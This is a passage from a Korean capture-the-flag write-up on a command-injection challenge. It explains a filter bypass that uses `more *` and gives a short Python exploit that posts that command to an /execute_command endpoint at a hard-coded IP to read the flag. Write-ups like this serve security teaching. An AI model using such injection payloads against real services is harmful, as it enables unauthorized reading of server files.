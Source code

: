 `more *` 명령을 실행히면 위 문자를 사용하지 않고 해당 디렉터리에 파일 내용을 볼 수 있습니다.    

<img src="./flagreading/flag.jpg" width="700px"/>             
       
## Exploit Code

```python
import requests 
url = "http://3.36.132.18:5678"

r = requests.post(
    f"{url}/execute_command",
    data={
        "command": "more *"
    }
)
print(r.text)
```

## 후기

Command Injection 우회 방법들을 다시 리마인드 할 수 있는 좋은 기회였던 것 같습니다. 

------

# Problem
